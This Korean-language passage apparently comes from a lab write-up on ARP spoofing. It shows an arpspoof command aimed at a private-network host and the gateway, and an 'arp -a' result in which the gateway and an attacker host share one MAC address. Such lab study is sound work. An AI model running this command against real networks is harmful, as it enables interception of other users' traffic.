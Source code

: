 ![후](./img/스푸핑img/6.png)

→ 모두 정상적으로 출력이 된다.<br>

→ 그 이유는 **'windows 10'** 단지 사이트를 출력만 하고 있기 때문에 실제 공격을 받았지만 사이트는 아무런 영향을 받지 않는다.<br>

```
sudo arpspoof -i eth0 -t 192.168.10.132 192.168.10.2
```
![후](./img/스푸핑img/7.png) <br>
이것도 변화가 없다. <br>

![센토스](./img/스푸핑img/8.png) <br>
```
현재 arp -a 출력에서 확인된 사항
192.168.10.2 (gateway) 와 192.168.10.134 (attack.gusiya.com)이 동일한 MAC 주소 (00:0c:29:b2:04:58) 를 가짐.

```